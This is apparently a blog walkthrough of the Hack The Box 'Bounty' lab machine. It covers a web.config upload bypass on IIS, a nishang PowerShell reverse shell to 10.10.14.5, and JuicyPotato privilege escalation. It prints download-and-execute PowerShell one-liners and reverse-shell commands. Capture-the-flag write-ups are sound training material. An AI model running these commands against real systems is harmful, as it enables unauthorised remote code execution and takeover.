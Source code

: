 ![](http://vedanttare.com/wp-content/uploads/2022/04/Screenshot-2022-09-25-at-2.22.28-PM.png)

**IP address: 10.10.10.93**

## Enumeration

After making a simple nmap scan: `sudo nmap -sC -sV -O -p- -oA nmap/bounty 10.10.10.93`, we get,

Open ports:

- 80

So, as there was only port 80 open I just navigated to the IP and got the default page which was and image. I checked the page source but there was nothing. Then, I checked the image info and it had related text which showed IIS 7. The nmap scan though said that it was running IIS 7.5. Then, I checked on searchsploit for iis 7.5 vulns and found some, auth bypass to read sensitive files, etc, but none of them worked. Finally, I ran gobuster.

gobuster:  
`/UploadedFiles (Status: 301) │st canceled (Client.Timeout exceeded while awaiting headers)<br></br>/uploadedFiles (Status: 301) │Progress: 155722 / 220561 (70.60%)[ERROR] 2020/09/01 09:14:17 [!] Get http://10.10.10.93/191275: net/http: request ca<br></br>/uploadedfiles (Status: 301)<br></br>/aspnet_client<br></br>/aspnet_client/system_web`

The default page after visiting the IP of the machine was:

![](http://vedanttare.com/wp-content/uploads/2022/04/default-page.png)

I visited these pages/dirs but got a 403 error which said that: YOU CANNOT ACCESS THIS PAGE AS YOU ARE NOT USING THE RIGHT CREDS…. Then as it was an IIS server, so, I thought of running gobuster with the extension flag of aspx through which I found a page:  
`transfer.aspx`

BOOM!!! This page had a file upload functionality where I could upload files. I tried uploading a simple aspx, asp file…but it said: `FILE NOT UPLOADED`  
I tried to bypass the filter by double extension and then when I tried to navigate to the file it showed that this page contains errors….. Then, I made a wordlist of all default extension and used burp intruder to bruteforce each one. It showed that jpeg, png and config(suspicious) was giving a successful upload.

After alot of sweat and tears and alot of googling I finally found an article which said that you could upload a web.config file to iis server 7/7.5 and embed asp code in it and execute it.  
https://soroush.secproject.com/blog/2014/07/upload-a-web-config-file-for-fun-profit/ –&gt; GODLY ARTICLE

Again, after alot of sweat and tears again I was able to get code execution. Now I had to upload a rev shell, so that I could get a rev connection back on my machine. I copied nishang poweshell rev shell script to my working directory:  
`Invoke-PowerShellTcp.ps1`

![](http://vedanttare.com/wp-content/uploads/2022/04/Screenshot-2022-04-15-at-1.46.29-PM.png)

At the end of the script I added:  
`Invoke-PowershellTcp -Reverse -IPAddress 10.10.14.5 -Port 4444`

![](http://vedanttare.com/wp-content/uploads/2022/04/Screenshot-2022-04-15-at-1.47.14-PM.png)  
By adding this it was telling the script to connect to my IP address and port. Then I modified my web.config file so that it would download the nishang powershell script and execute it. I setup a listener on my kali machine:  
AND BOOM!!!! I got a low priv shell!

`kali@starscorp1o:~/htb/boxes/bounty$ sudo nc -nlvp 5555<br></br>[sudo] password for kali:<br></br>listening on [any] 5555 …<br></br>connect to [10.10.14.5] from (UNKNOWN) [10.10.10.93] 49158<br></br>Windows PowerShell running as user BOUNTY$ on BOUNTY<br></br>Copyright (C) 2015 Microsoft Corporation. All rights reserved.`

`PS C:\windows\system32\inetsrv>whoami<br></br>bounty\merlin<br></br>PS C:\windows\system32\inetsrv> systeminfo`

`Host Name: BOUNTY<br></br>OS Name: Microsoft Windows Server 2008 R2 Datacenter<br></br>OS Version: 6.1.7600 N/A Build 7600<br></br>OS Manufacturer: Microsoft Corporation<br></br>OS Configuration: Standalone Server<br></br>OS Build Type: Multiprocessor Free<br></br>Registered Owner: Windows User<br></br>Registered Organization:<br></br>Product ID: 55041-402-3606965-84760<br></br>Original Install Date: 5/30/2018, 12:22:24 AM<br></br>System Boot Time: 9/2/2020, 5:19:45 PM<br></br>System Manufacturer: VMware, Inc.<br></br>System Model: VMware Virtual Platform<br></br>System Type: x64-based PC<br></br>Processor(s): 1 Processor(s) Installed.<br></br>[01]: AMD64 Family 23 Model 1 Stepping 2 AuthenticAMD ~2000 Mhz<br></br>BIOS Version: Phoenix Technologies LTD 6.00, 12/12/2018<br></br>Windows Directory: C:\Windows<br></br>System Directory: C:\Windows\system32<br></br>Boot Device: \Device\HarddiskVolume1<br></br>System Locale: en-us;English (United States)<br></br>Input Locale: en-us;English (United States)<br></br>Time Zone: (UTC+02:00) Athens, Bucharest, Istanbul<br></br>Total Physical Memory: 2,047 MB<br></br>Available Physical Memory: 1,578 MB<br></br>Virtual Memory: Max Size: 4,095 MB<br></br>Virtual Memory: Available: 3,574 MB<br></br>Virtual Memory: In Use: 521 MB<br></br>Page File Location(s): C:\pagefile.sys<br></br>Domain: WORKGROUP<br></br>Logon Server: N/A<br></br>Hotfix(s): N/A<br></br>Network Card(s): 1 NIC(s) Installed.<br></br>[01]: Intel(R) PRO/1000 MT Network Connection<br></br>Connection Name: Local Area Connection<br></br>DHCP Enabled: No`

## Privilege Escalation

I checked who I was:  
`bounty/merlin`

I went into merlin’s dir and tried to list the files but I couldn’t get the user.txt file as it wasn’t showing. Then I ran the following command to see hidden files:  
`attrib`  
And then i got the user flag:

`PS C:\Users\merlin> cd Desktop<br></br>PS C:\Users\merlin\Desktop> dir<br></br>PS C:\Users\merlin\Desktop> attrib<br></br>A SH C:\Users\merlin\Desktop\desktop.ini<br></br>A H C:\Users\merlin\Desktop\user.txt<br></br>PS C:\Users\merlin\Desktop> type user.txt<br></br>e29ad89891462e0b09741e3082f44a2f`

I checked the system information using:  
`systeminfo` command:

`PS C:\windows\system32\inetsrv> systeminfo`

`Host Name: BOUNTY<br></br>OS Name: Microsoft Windows Server 2008 R2 Datacenter<br></br>OS Version: 6.1.7600 N/A Build 7600<br></br>OS Manufacturer: Microsoft Corporation<br></br>OS Configuration: Standalone Server<br></br>OS Build Type: Multiprocessor Free<br></br>Registered Owner: Windows User<br></br>Registered Organization:<br></br>Product ID: 55041-402-3606965-84760<br></br>Original Install Date: 5/30/2018, 12:22:24 AM<br></br>System Boot Time: 9/2/2020, 5:19:45 PM<br></br>System Manufacturer: VMware, Inc.<br></br>System Model: VMware Virtual Platform<br></br>System Type: x64-based PC<br></br>Processor(s): 1 Processor(s) Installed.<br></br>[01]: AMD64 Family 23 Model 1 Stepping 2 AuthenticAMD ~2000 Mhz<br></br>BIOS Version: Phoenix Technologies LTD 6.00, 12/12/2018<br></br>Windows Directory: C:\Windows<br></br>System Directory: C:\Windows\system32<br></br>Boot Device: \Device\HarddiskVolume1<br></br>System Locale: en-us;English (United States)<br></br>Input Locale: en-us;English (United States)<br></br>Time Zone: (UTC+02:00) Athens, Bucharest, Istanbul<br></br>Total Physical Memory: 2,047 MB<br></br>Available Physical Memory: 1,578 MB<br></br>Virtual Memory: Max Size: 4,095 MB<br></br>Virtual Memory: Available: 3,574 MB<br></br>Virtual Memory: In Use: 521 MB<br></br>Page File Location(s): C:\pagefile.sys<br></br>Domain: WORKGROUP<br></br>Logon Server: N/A<br></br>Hotfix(s): N/A<br></br>Network Card(s): 1 NIC(s) Installed.<br></br>[01]: Intel(R) PRO/1000 MT Network Connection<br></br>Connection Name: Local Area Connection<br></br>DHCP Enabled: No<br></br>IP address(es)<br></br>[01]: 10.10.10.93`

![](http://vedanttare.com/wp-content/uploads/2022/04/userflag.png)

Now, I checked the privileges:  
using `whoami /priv` command:

`Privilege Name Description State<br></br>============================= ========================================= =======<br></br>SeAssignPrimaryTokenPrivilege Replace a process level token Enabled<br></br>SeIncreaseQuotaPrivilege Adjust memory quotas for a process Enabled<br></br>SeAuditPrivilege Generate security audits Enabled<br></br>SeChangeNotifyPrivilege Bypass traverse checking Enabled<br></br>SeImpersonatePrivilege Impersonate a client after authentication Enabled<br></br>SeIncreaseWorkingSetPrivilege Increase a process working set Enabled`

Now we could see that the SeImpersonatePrivilege was enabled…this is very juicy…this leads to tokenhijacking…Juicypotato exploit is available for the esacalation of privileges for this…So I downloaded juicypotato.exe from github:

<https://github.com/ohpe/juicy-potato/releases>

Then, I already had a python web server hosted so I downloaded the file on my kali machine using the following command:

`PS C:\Users\merlin\Desktop> (new-object net.webclient).downloadfile('http://10.10.14.5:/JuicyPotato.exe', 'C:\Users\merlin\Desktop\jp.exe')`

![](http://vedanttare.com/wp-content/uploads/2022/04/pywebserver.png)

![](http://vedanttare.com/wp-content/uploads/2022/04/juicy-potato.png)

Now, I made a shell.bat file on my kali machine with the following code:

`powershell -c iex(new-object net.webclient).downloadstring('http://10.10.14.5:/shell.ps1')`

![](http://vedanttare.com/wp-content/uploads/2022/04/shellbat.png)

What this command does is that it downloads another powershell script and executes it but we will do that by using juicy potate exploit which will run it as root…

The final command:

`PS C:\Users\merlin\Desktop> ./jp.exe -t * -p shell.bat -l 4444<br></br>Testing {4991d34b-80a1-4291-83b6-3328366b9097} 4444<br></br>….<br></br>[+] authresult 0<br></br>{4991d34b-80a1-4291-83b6-332`8366b9097};NT AUTHORITY\\SYSTEM

`[+] CreateProcessWithTokenW OK`

AND BOOM!!! We get root!!!!

`kali@starscorp1o:~/htb/boxes/bounty$ sudo nc -nlvp 4444<br></br>[sudo] password for kali:<br></br>listening on [any] 4444 …<br></br>connect to [10.10.14.5] from (UNKNOWN) [10.10.10.93] 49168<br></br>whoami<br></br>Windows PowerShell running as user BOUNTY$ on BOUNTY<br></br>Copyright (C) 2015 Microsoft `Corporation. All rights reserved.

`PS C:\Windows\system32>nt authority\system<br></br>PS C:\Windows\system32> whoami<br></br>nt authority\system<br></br>PS C:\Windows\system32> hostname<br></br>bounty<br></br>PS C:\Windows\system32> whoami<br></br>nt authority\system<br></br>PS C:\Windows\system32> whoami<br></br>whoami`

![](http://vedanttare.com/wp-content/uploads/2022/04/got-root.png)

Important links and resources:

<https://github.com/Bengman/CTF-writeups/blob/master/Hackthebox/bounty.md>

<https://medium.com/@ranakhalil101/hack-the-box-bounty-writeup-w-o-metasploit-14467aea7815>

Check out my previous post:

<figure class="wp-block-embed is-type-wp-embed is-provider-vedant-tare wp-block-embed-vedant-tare"><div class="wp-block-embed__wrapper">> [Hackthebox – Jerry](https://vedanttare.com/hackthebox-jerry/)

<iframe class="wp-embedded-content" data-secret="ZndqSkPSVw" frameborder="0" height="338" marginheight="0" marginwidth="0" sandbox="allow-scripts" scrolling="no" security="restricted" src="https://vedanttare.com/hackthebox-jerry/embed/#?secret=sbeonL6L6I#?secret=ZndqSkPSVw" style="position: absolute; clip: rect(1px, 1px, 1px, 1px);" title="“Hackthebox – Jerry” — VEDANT TARE" width="600"></iframe></div></figure>
